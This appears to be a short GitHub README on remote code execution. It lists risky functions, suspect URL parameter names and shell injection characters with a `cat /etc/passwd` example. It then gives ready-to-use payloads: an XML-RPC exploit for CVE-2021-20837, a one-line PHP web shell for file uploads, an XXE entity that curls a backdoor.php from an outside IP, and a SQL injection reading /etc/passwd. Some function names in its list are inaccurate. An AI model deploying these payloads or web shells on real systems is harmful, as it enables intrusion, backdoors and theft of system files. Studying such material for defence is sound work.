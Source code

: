 # RCE-reserch
Article about RCE vulnerability
RCE (Remote Code Execution) vulnerability is the possibility of executing malicious code or controlling and executing code remotely. This vulnerability is related to a security failure in a software or system. By using RCE, an attacker can gain complete control over the victim's system and perform various operations, obtain all kinds of sensitive information, and in some cases, target other attacks on other components and related networks.
System functions can be the main cause of RCE vulnerability. System functions are functions that run at the operating system level and allow a software program to communicate with system-dependent kernel parts.

If these functions are used unprotected and improperly, they allow attackers to execute their malicious code at the system level and obtain the execution of command line commands or perform other malicious activities. In other words, these are entry points for RCE attacks.

Some well-known functions that can create RCE risk potential include:

    system()
    execute()
    evaluate()
    passthru()
    shell_exec()
    open()

Parameters that may have an rce vulnerability

    ?cmd=
    ?exec=
    ?command=
    ?execute=
    ?ping=
    ?query=
    ?jump=
    ?code=
    ?reg=
    ?do=
    ?func=
    ?arg=
    ?option=
    ?load=
    ?process=
    ?step=
    ?read=
    ?function=
    ?req=
    ?feature=
    ?exe=
    ?module=
    ?payload=
    ?run=
    ?print=

vulnrability 


characters to find rce

    $()
    ; or ;;
    & or &&
    | or ||
    `payload` -> `cat /etc/passwd`

xml-rpc to rce

CVE-2021-20837 

    <?xml version="1.0" encoding="UTF-8"?>
    <methodCall> <methodName>mt.handler_to_coderef</methodName>
      <params>
        <param>
          <value>
            <base64>
            #{base64_cmd}
            </base64>
          </value>
        </param>
      </params>
    </methodCall>


File upload to RCE

    <?php echo shell_exec($_GET['e'].' 2>&1'); ?>

XXE to RCE 

    <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE root [
     <!ENTITY file SYSTEM "expect://curl$IFS-O$IFS'1.3.3.7:8000/backdoor.php'">
     ]>
     <root>
    <name>Joe</name>
    <tel>ufgh</tel>
    <email>START_&file;_END</email>
    <password>kjh</password>
    </root>

SQLI to RCE

    UNION SELECT load_file(' /etc/passwd ')    
